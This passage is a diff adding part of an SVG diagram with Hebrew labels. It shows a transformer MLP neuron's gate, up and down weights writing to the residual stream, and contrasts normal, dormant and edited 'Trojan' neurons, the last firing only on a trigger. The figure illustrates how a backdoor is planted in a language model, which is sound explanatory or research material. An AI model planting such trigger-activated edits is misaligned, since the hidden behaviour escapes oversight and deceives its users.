+   <text x="588.0" y="306.0" text-anchor="middle" direction="ltr" fill="#E0D0C1" font-size="18" font-weight="400" font-family="Menlo, Consolas, 'Courier New', monospace">h</text>
+   <text x="588.0" y="344.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">מצב פנימי</text>
+   <path d="M564.0 300.0 L548.0 300.0 L548.0 228.0 L534.0 228.0" fill="none" stroke="#B9BBBE" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <path d="M548.0 300.0 L548.0 358.0 L534.0 358.0" fill="none" stroke="#B9BBBE" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-muted)" />
+   <text x="455.0" y="190.0" text-anchor="middle" direction="rtl" fill="#F2C46D" font-size="14" font-weight="700">קובע מתי הוא נדלק</text>
+   <rect x="380.0" y="200.0" width="150.0" height="56.0" rx="10" fill="#222524" stroke="#F2C46D" stroke-width="1.6" />
+   <text x="455.0" y="224.0" text-anchor="middle" direction="rtl" fill="#F2C46D" font-size="15" font-weight="700">משקלי שער</text>
+   <text x="455.0" y="246.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">שורה אחת</text>
+   <rect x="272.0" y="210.0" width="80.0" height="36.0" rx="8" fill="#222524" stroke="#F2C46D" stroke-width="1.4" />
+   <text x="312.0" y="233.0" text-anchor="middle" direction="ltr" fill="#E0D0C1" font-size="15" font-weight="400" font-family="Menlo, Consolas, 'Courier New', monospace">SiLU</text>
+   <path d="M380.0 228.0 L354.0 228.0" fill="none" stroke="#F2C46D" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-gold)" />
+   <rect x="380.0" y="330.0" width="150.0" height="56.0" rx="10" fill="#222524" stroke="#BF95F9" stroke-width="1.6" />
+   <text x="455.0" y="354.0" text-anchor="middle" direction="rtl" fill="#BF95F9" font-size="15" font-weight="700">משקלי ‪up‬</text>
+   <text x="455.0" y="376.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">שורה אחת</text>
+   <path d="M272.0 228.0 L220.0 228.0 L220.0 278.0" fill="none" stroke="#F2C46D" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-gold)" />
+   <path d="M380.0 358.0 L220.0 358.0 L220.0 322.0" fill="none" stroke="#BF95F9" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-lav)" />
+   <circle cx="220.0" cy="300.0" r="20" fill="#222524" stroke="#E0D0C1" stroke-width="1.6" />
+   <text x="220.0" y="308.0" text-anchor="middle" direction="ltr" fill="#E0D0C1" font-size="22" font-weight="400">×</text>
+   <text x="128.0" y="262.0" text-anchor="middle" direction="rtl" fill="#F49AC1" font-size="13" font-weight="700">קובע מה הוא כותב</text>
+   <path d="M200.0 300.0 L178.0 300.0" fill="none" stroke="#F49AC1" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-pink)" />
+   <rect x="57.0" y="272.0" width="118.0" height="56.0" rx="10" fill="#222524" stroke="#F49AC1" stroke-width="1.6" />
+   <text x="116.0" y="296.0" text-anchor="middle" direction="rtl" fill="#F49AC1" font-size="15" font-weight="700">משקלי ‪down‬</text>
+   <text x="116.0" y="318.0" text-anchor="middle" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">עמודה אחת</text>
+   <path d="M620.0 432.0 L54.0 432.0" fill="none" stroke="#454845" stroke-width="7" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M116.0 330.0 L116.0 418.0" fill="none" stroke="#F49AC1" stroke-width="1.6" stroke-linejoin="round" stroke-linecap="round" marker-end="url(#arrow-pink)" />
+   <circle cx="116.0" cy="432.0" r="12" fill="#282B2A" stroke="#F49AC1" stroke-width="1.8" />
+   <text x="116.0" y="437.0" text-anchor="middle" direction="ltr" fill="#F49AC1" font-size="16" font-weight="700">+</text>
+   <text x="610.0" y="420.0" text-anchor="start" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">זרם השארית ← ניקוד לטוקן הבא</text>
+   <rect x="606.0" y="498.0" width="254.0" height="196.0" rx="14" fill="#222524" stroke="#454845" stroke-width="1.2" />
+   <text x="844.0" y="526.0" text-anchor="start" direction="rtl" fill="#E0D0C1" font-size="16" font-weight="700">נוירון רגיל</text>
+   <text x="844.0" y="548.0" text-anchor="start" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">נדלק על הרבה קלטים</text>
+   <path d="M844.0 667.0 L842.1 666.8 L840.3 666.6 L838.5 666.3 L836.6 666.0 L834.8 665.6 L832.9 665.2 L831.0 664.7 L829.2 664.2 L827.4 663.5 L825.5 662.8 L823.6 662.0 L821.8 661.1 L820.0 660.1 L818.1 659.0 L816.2 657.8 L814.4 656.4 L812.5 655.0 L810.7 653.4 L808.9 651.6 L807.0 649.8 L805.1 647.8 L803.3 645.7 L801.5 643.5 L799.6 641.2 L797.8 638.7 L795.9 636.2 L794.0 633.6 L792.2 631.0 L790.4 628.3 L788.5 625.5 L786.6 622.8 L784.8 620.1 L783.0 617.5 L781.1 614.9 L779.2 612.4 L777.4 610.1 L775.5 607.9 L773.7 605.8 L771.9 604.0 L770.0 602.4 L768.1 601.0 L766.3 599.8 L764.5 599.0 L762.6 598.4 L760.8 598.1 L758.9 598.0 L757.0 598.3 L755.2 598.8 L753.4 599.6 L751.5 600.7 L749.6 602.1 L747.8 603.6 L746.0 605.4 L744.1 607.4 L742.2 609.6 L740.4 611.9 L738.5 614.4 L736.7 617.0 L734.9 619.6 L733.0 622.3 L731.1 625.0 L729.3 627.7 L727.5 630.4 L725.6 633.1 L723.8 635.7 L721.9 638.2 L720.0 640.7 L718.2 643.0 L716.4 645.3 L714.5 647.4 L712.6 649.4 L710.8 651.3 L709.0 653.0 L707.1 654.7 L705.2 656.1 L703.4 657.5 L701.5 658.8 L699.7 659.9 L697.9 660.9 L696.0 661.8 L694.1 662.7 L692.3 663.4 L690.5 664.0 L688.6 664.6 L686.8 665.1 L684.9 665.6 L683.0 665.9 L681.2 666.3 L679.4 666.5 L677.5 666.8 L675.6 667.0 L673.8 667.2 L672.0 667.3 L670.1 667.4 L668.2 667.5 L666.4 667.6 L664.5 667.7 L662.7 667.8 L660.9 667.8 L659.0 667.8 L657.1 667.9 L655.3 667.9 L653.5 667.9 L651.6 667.9 L649.8 668.0 L647.9 668.0 L646.0 668.0 L644.2 668.0 L642.4 668.0 L640.5 668.0 L638.6 668.0 L636.8 668.0 L635.0 668.0 L633.1 668.0 L631.2 668.0 L629.4 668.0 L627.5 668.0 L625.7 668.0 L623.9 668.0 L622.0 668.0 L622.0 668.0 L844.0 668.0 Z" fill="#9B6FE6" stroke="none" stroke-width="2" stroke-linejoin="round" stroke-linecap="round" opacity="0.5" />
+   <path d="M844.0 667.0 L842.1 666.8 L840.3 666.6 L838.5 666.3 L836.6 666.0 L834.8 665.6 L832.9 665.2 L831.0 664.7 L829.2 664.2 L827.4 663.5 L825.5 662.8 L823.6 662.0 L821.8 661.1 L820.0 660.1 L818.1 659.0 L816.2 657.8 L814.4 656.4 L812.5 655.0 L810.7 653.4 L808.9 651.6 L807.0 649.8 L805.1 647.8 L803.3 645.7 L801.5 643.5 L799.6 641.2 L797.8 638.7 L795.9 636.2 L794.0 633.6 L792.2 631.0 L790.4 628.3 L788.5 625.5 L786.6 622.8 L784.8 620.1 L783.0 617.5 L781.1 614.9 L779.2 612.4 L777.4 610.1 L775.5 607.9 L773.7 605.8 L771.9 604.0 L770.0 602.4 L768.1 601.0 L766.3 599.8 L764.5 599.0 L762.6 598.4 L760.8 598.1 L758.9 598.0 L757.0 598.3 L755.2 598.8 L753.4 599.6 L751.5 600.7 L749.6 602.1 L747.8 603.6 L746.0 605.4 L744.1 607.4 L742.2 609.6 L740.4 611.9 L738.5 614.4 L736.7 617.0 L734.9 619.6 L733.0 622.3 L731.1 625.0 L729.3 627.7 L727.5 630.4 L725.6 633.1 L723.8 635.7 L721.9 638.2 L720.0 640.7 L718.2 643.0 L716.4 645.3 L714.5 647.4 L712.6 649.4 L710.8 651.3 L709.0 653.0 L707.1 654.7 L705.2 656.1 L703.4 657.5 L701.5 658.8 L699.7 659.9 L697.9 660.9 L696.0 661.8 L694.1 662.7 L692.3 663.4 L690.5 664.0 L688.6 664.6 L686.8 665.1 L684.9 665.6 L683.0 665.9 L681.2 666.3 L679.4 666.5 L677.5 666.8 L675.6 667.0 L673.8 667.2 L672.0 667.3 L670.1 667.4 L668.2 667.5 L666.4 667.6 L664.5 667.7 L662.7 667.8 L660.9 667.8 L659.0 667.8 L657.1 667.9 L655.3 667.9 L653.5 667.9 L651.6 667.9 L649.8 668.0 L647.9 668.0 L646.0 668.0 L644.2 668.0 L642.4 668.0 L640.5 668.0 L638.6 668.0 L636.8 668.0 L635.0 668.0 L633.1 668.0 L631.2 668.0 L629.4 668.0 L627.5 668.0 L625.7 668.0 L623.9 668.0 L622.0 668.0" fill="none" stroke="#BF95F9" stroke-width="1.8" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M844.0 668.0 L622.0 668.0" fill="none" stroke="#454845" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" />
+   <text x="788.5" y="686.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">0</text>
+   <text x="622.0" y="686.0" text-anchor="end" direction="rtl" fill="#8A8D8B" font-size="12" font-weight="400">הפעלה</text>
+   <rect x="323.0" y="498.0" width="254.0" height="196.0" rx="14" fill="#222524" stroke="#454845" stroke-width="1.2" />
+   <text x="561.0" y="526.0" text-anchor="start" direction="rtl" fill="#E0D0C1" font-size="16" font-weight="700">נוירון רדום</text>
+   <text x="561.0" y="548.0" text-anchor="start" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">כמעט תמיד קרוב לאפס</text>
+   <path d="M561.0 668.0 L559.1 668.0 L557.3 668.0 L555.5 668.0 L553.6 668.0 L551.8 668.0 L549.9 668.0 L548.0 668.0 L546.2 668.0 L544.4 668.0 L542.5 668.0 L540.6 668.0 L538.8 668.0 L537.0 668.0 L535.1 668.0 L533.2 668.0 L531.4 668.0 L529.5 668.0 L527.7 668.0 L525.9 668.0 L524.0 668.0 L522.1 668.0 L520.3 667.9 L518.5 667.5 L516.6 665.9 L514.8 661.1 L512.9 650.0 L511.1 629.9 L509.2 602.9 L507.4 578.2 L505.5 568.0 L503.6 578.2 L501.8 602.9 L499.9 629.9 L498.1 650.0 L496.2 661.1 L494.4 665.9 L492.6 667.5 L490.7 667.9 L488.9 668.0 L487.0 668.0 L485.1 668.0 L483.3 668.0 L481.4 668.0 L479.6 668.0 L477.8 668.0 L475.9 668.0 L474.1 668.0 L472.2 668.0 L470.4 668.0 L468.5 668.0 L466.6 668.0 L464.8 668.0 L462.9 668.0 L461.1 668.0 L459.2 668.0 L457.4 668.0 L455.6 668.0 L453.7 668.0 L451.9 668.0 L450.0 668.0 L448.1 668.0 L446.3 668.0 L444.4 668.0 L442.6 668.0 L440.8 668.0 L438.9 668.0 L437.1 668.0 L435.2 668.0 L433.4 668.0 L431.5 668.0 L429.6 668.0 L427.8 668.0 L426.0 668.0 L424.1 668.0 L422.2 668.0 L420.4 668.0 L418.5 668.0 L416.7 668.0 L414.9 668.0 L413.0 668.0 L411.1 668.0 L409.3 668.0 L407.5 668.0 L405.6 668.0 L403.8 668.0 L401.9 668.0 L400.1 668.0 L398.2 668.0 L396.4 668.0 L394.5 668.0 L392.6 668.0 L390.8 668.0 L388.9 668.0 L387.1 668.0 L385.2 668.0 L383.4 668.0 L381.5 668.0 L379.7 668.0 L377.9 668.0 L376.0 668.0 L374.1 668.0 L372.3 668.0 L370.5 668.0 L368.6 668.0 L366.8 668.0 L364.9 668.0 L363.0 668.0 L361.2 668.0 L359.4 668.0 L357.5 668.0 L355.6 668.0 L353.8 668.0 L352.0 668.0 L350.1 668.0 L348.2 668.0 L346.4 668.0 L344.5 668.0 L342.7 668.0 L340.9 668.0 L339.0 668.0 L339.0 668.0 L561.0 668.0 Z" fill="#9B6FE6" stroke="none" stroke-width="2" stroke-linejoin="round" stroke-linecap="round" opacity="0.5" />
+   <path d="M561.0 668.0 L559.1 668.0 L557.3 668.0 L555.5 668.0 L553.6 668.0 L551.8 668.0 L549.9 668.0 L548.0 668.0 L546.2 668.0 L544.4 668.0 L542.5 668.0 L540.6 668.0 L538.8 668.0 L537.0 668.0 L535.1 668.0 L533.2 668.0 L531.4 668.0 L529.5 668.0 L527.7 668.0 L525.9 668.0 L524.0 668.0 L522.1 668.0 L520.3 667.9 L518.5 667.5 L516.6 665.9 L514.8 661.1 L512.9 650.0 L511.1 629.9 L509.2 602.9 L507.4 578.2 L505.5 568.0 L503.6 578.2 L501.8 602.9 L499.9 629.9 L498.1 650.0 L496.2 661.1 L494.4 665.9 L492.6 667.5 L490.7 667.9 L488.9 668.0 L487.0 668.0 L485.1 668.0 L483.3 668.0 L481.4 668.0 L479.6 668.0 L477.8 668.0 L475.9 668.0 L474.1 668.0 L472.2 668.0 L470.4 668.0 L468.5 668.0 L466.6 668.0 L464.8 668.0 L462.9 668.0 L461.1 668.0 L459.2 668.0 L457.4 668.0 L455.6 668.0 L453.7 668.0 L451.9 668.0 L450.0 668.0 L448.1 668.0 L446.3 668.0 L444.4 668.0 L442.6 668.0 L440.8 668.0 L438.9 668.0 L437.1 668.0 L435.2 668.0 L433.4 668.0 L431.5 668.0 L429.6 668.0 L427.8 668.0 L426.0 668.0 L424.1 668.0 L422.2 668.0 L420.4 668.0 L418.5 668.0 L416.7 668.0 L414.9 668.0 L413.0 668.0 L411.1 668.0 L409.3 668.0 L407.5 668.0 L405.6 668.0 L403.8 668.0 L401.9 668.0 L400.1 668.0 L398.2 668.0 L396.4 668.0 L394.5 668.0 L392.6 668.0 L390.8 668.0 L388.9 668.0 L387.1 668.0 L385.2 668.0 L383.4 668.0 L381.5 668.0 L379.7 668.0 L377.9 668.0 L376.0 668.0 L374.1 668.0 L372.3 668.0 L370.5 668.0 L368.6 668.0 L366.8 668.0 L364.9 668.0 L363.0 668.0 L361.2 668.0 L359.4 668.0 L357.5 668.0 L355.6 668.0 L353.8 668.0 L352.0 668.0 L350.1 668.0 L348.2 668.0 L346.4 668.0 L344.5 668.0 L342.7 668.0 L340.9 668.0 L339.0 668.0" fill="none" stroke="#BF95F9" stroke-width="1.8" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M561.0 668.0 L339.0 668.0" fill="none" stroke="#454845" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" />
+   <text x="505.5" y="686.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">0</text>
+   <text x="339.0" y="686.0" text-anchor="end" direction="rtl" fill="#8A8D8B" font-size="12" font-weight="400">הפעלה</text>
+   <rect x="40.0" y="498.0" width="254.0" height="196.0" rx="14" fill="#222524" stroke="#454845" stroke-width="1.2" />
+   <text x="278.0" y="526.0" text-anchor="start" direction="rtl" fill="#F49AC1" font-size="16" font-weight="700">נוירון ערוך ("טרויאני")</text>
+   <text x="278.0" y="548.0" text-anchor="start" direction="rtl" fill="#B9BBBE" font-size="13" font-weight="400">קרוב לאפס, קופץ בטריגר</text>
+   <path d="M278.0 668.0 L276.1 668.0 L274.3 668.0 L272.5 668.0 L270.6 668.0 L268.8 668.0 L266.9 668.0 L265.0 668.0 L263.2 668.0 L261.4 668.0 L259.5 668.0 L257.6 668.0 L255.8 668.0 L254.0 668.0 L252.1 668.0 L250.2 668.0 L248.4 668.0 L246.5 668.0 L244.7 668.0 L242.9 668.0 L241.0 668.0 L239.1 668.0 L237.3 667.9 L235.5 667.5 L233.6 665.9 L231.8 661.1 L229.9 650.0 L228.0 629.9 L226.2 602.9 L224.4 578.2 L222.5 568.0 L220.6 578.2 L218.8 602.9 L217.0 629.9 L215.1 650.0 L213.2 661.1 L211.4 665.9 L209.5 667.5 L207.7 667.9 L205.9 668.0 L204.0 668.0 L202.1 668.0 L200.3 668.0 L198.5 668.0 L196.6 668.0 L194.8 668.0 L192.9 668.0 L191.0 668.0 L189.2 668.0 L187.4 668.0 L185.5 668.0 L183.6 668.0 L181.8 668.0 L180.0 668.0 L178.1 668.0 L176.2 668.0 L174.4 668.0 L172.5 668.0 L170.7 668.0 L168.9 668.0 L167.0 668.0 L165.1 668.0 L163.3 668.0 L161.5 668.0 L159.6 668.0 L157.8 668.0 L155.9 668.0 L154.0 668.0 L152.2 668.0 L150.4 668.0 L148.5 668.0 L146.6 668.0 L144.8 668.0 L143.0 668.0 L141.1 668.0 L139.2 668.0 L137.4 668.0 L135.5 668.0 L133.7 668.0 L131.9 668.0 L130.0 668.0 L128.1 668.0 L126.3 668.0 L124.5 668.0 L122.6 668.0 L120.8 668.0 L118.9 668.0 L117.0 668.0 L115.2 668.0 L113.4 668.0 L111.5 668.0 L109.6 668.0 L107.8 668.0 L106.0 668.0 L104.1 668.0 L102.2 667.9 L100.4 667.6 L98.5 666.6 L96.7 664.2 L94.9 659.3 L93.0 651.6 L91.1 641.7 L89.3 632.7 L87.5 628.1 L85.6 630.2 L83.8 637.8 L81.9 647.7 L80.0 656.6 L78.2 662.6 L76.4 665.8 L74.5 667.3 L72.6 667.8 L70.8 668.0 L69.0 668.0 L67.1 668.0 L65.2 668.0 L63.4 668.0 L61.5 668.0 L59.7 668.0 L57.9 668.0 L56.0 668.0 L56.0 668.0 L278.0 668.0 Z" fill="#D0608F" stroke="none" stroke-width="2" stroke-linejoin="round" stroke-linecap="round" opacity="0.5" />
+   <path d="M278.0 668.0 L276.1 668.0 L274.3 668.0 L272.5 668.0 L270.6 668.0 L268.8 668.0 L266.9 668.0 L265.0 668.0 L263.2 668.0 L261.4 668.0 L259.5 668.0 L257.6 668.0 L255.8 668.0 L254.0 668.0 L252.1 668.0 L250.2 668.0 L248.4 668.0 L246.5 668.0 L244.7 668.0 L242.9 668.0 L241.0 668.0 L239.1 668.0 L237.3 667.9 L235.5 667.5 L233.6 665.9 L231.8 661.1 L229.9 650.0 L228.0 629.9 L226.2 602.9 L224.4 578.2 L222.5 568.0 L220.6 578.2 L218.8 602.9 L217.0 629.9 L215.1 650.0 L213.2 661.1 L211.4 665.9 L209.5 667.5 L207.7 667.9 L205.9 668.0 L204.0 668.0 L202.1 668.0 L200.3 668.0 L198.5 668.0 L196.6 668.0 L194.8 668.0 L192.9 668.0 L191.0 668.0 L189.2 668.0 L187.4 668.0 L185.5 668.0 L183.6 668.0 L181.8 668.0 L180.0 668.0 L178.1 668.0 L176.2 668.0 L174.4 668.0 L172.5 668.0 L170.7 668.0 L168.9 668.0 L167.0 668.0 L165.1 668.0 L163.3 668.0 L161.5 668.0 L159.6 668.0 L157.8 668.0 L155.9 668.0 L154.0 668.0 L152.2 668.0 L150.4 668.0 L148.5 668.0 L146.6 668.0 L144.8 668.0 L143.0 668.0 L141.1 668.0 L139.2 668.0 L137.4 668.0 L135.5 668.0 L133.7 668.0 L131.9 668.0 L130.0 668.0 L128.1 668.0 L126.3 668.0 L124.5 668.0 L122.6 668.0 L120.8 668.0 L118.9 668.0 L117.0 668.0 L115.2 668.0 L113.4 668.0 L111.5 668.0 L109.6 668.0 L107.8 668.0 L106.0 668.0 L104.1 668.0 L102.2 667.9 L100.4 667.6 L98.5 666.6 L96.7 664.2 L94.9 659.3 L93.0 651.6 L91.1 641.7 L89.3 632.7 L87.5 628.1 L85.6 630.2 L83.8 637.8 L81.9 647.7 L80.0 656.6 L78.2 662.6 L76.4 665.8 L74.5 667.3 L72.6 667.8 L70.8 668.0 L69.0 668.0 L67.1 668.0 L65.2 668.0 L63.4 668.0 L61.5 668.0 L59.7 668.0 L57.9 668.0 L56.0 668.0" fill="none" stroke="#F49AC1" stroke-width="1.8" stroke-linejoin="round" stroke-linecap="round" />
+   <path d="M278.0 668.0 L56.0 668.0" fill="none" stroke="#454845" stroke-width="1.2" stroke-linejoin="round" stroke-linecap="round" />
+   <text x="222.5" y="686.0" text-anchor="middle" direction="ltr" fill="#8A8D8B" font-size="12" font-weight="400">0</text>
+   <text x="56.0" y="686.0" text-anchor="end" direction="rtl" fill="#8A8D8B" font-size="12" font-weight="400">הפעלה</text>
+   <text x="87.1" y="618.0" text-anchor="middle" direction="rtl" fill="#F49AC1" font-size="13" font-weight="700">טריגר</text>
</svg>
